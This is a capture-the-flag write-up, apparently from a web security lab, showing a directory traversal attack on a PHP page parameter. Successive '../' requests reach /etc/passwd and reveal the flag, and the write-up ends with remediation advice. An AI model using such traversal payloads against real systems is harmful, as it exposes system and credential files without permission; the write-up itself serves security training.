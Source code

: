 When going to any page on the website we see that it's referenced with it's PHP path `http://localhost:8080/?page=member`, so we are going to try and find a breach around that.
We first try to add some random letters and see that we're given an alert box:

```
localhost:8080 says
Wtf ?
```

Let's try to navigate around the files and see what happens:
`http://localhost:8080/?page=member/../`:
```
localhost:8080 says
Wrong again ?
```

`http://localhost:8080/?page=member/../../../../`
```
localhost:8080 says
Almost.
```

`http://localhost:8080/?page=member/../../../../../../../`
```
localhost:8080 says
You can DO it !!!  :]
```

`http://localhost:8080/?page=member/../../../../../../../etc/passwd`

```
localhost:8080 says
Congratulaton!! The flag is : b12c4b2cb8094750ae121a676269aa9e2872d07c06e429d25a63196ec1c8c1d0 
```

We got our flag !

To remediate this vulnerability, the application should:
 - Implement proper input validation that rejects paths containing directory traversal sequences (like "../")
 - Use a whitelist approach to only allow specific, predefined pages to be included
 - Avoid directly passing user input to file system operations